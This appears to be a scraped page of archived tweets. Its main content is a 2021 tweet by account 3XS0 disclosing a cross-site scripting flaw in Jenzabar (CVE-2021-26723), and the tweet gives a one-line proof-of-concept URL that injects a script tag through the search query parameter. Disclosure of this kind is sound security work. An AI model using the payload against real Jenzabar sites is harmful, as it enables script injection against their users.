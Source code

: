 <td><img src="pictures/36f236c4d8ceb41f147fb0da22bbc2f78f18c006de3de8b7cd61352e1c08db06.jpg" alt="36f236c4d8ceb41f147fb0da22bbc2f78f18c006de3de8b7cd61352e1c08db06.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# 3XS0
**https://twitter.com/3XS0/status/1370458184914206725 _at 2021-03-12, 19:34:27_**
<blockquote>
XSS in Jenzabar (CVE-2021-26723)

POC:
/ics?tool=search&amp;query="&gt;&lt;script&gt;alert('xss')&lt;/script&gt;
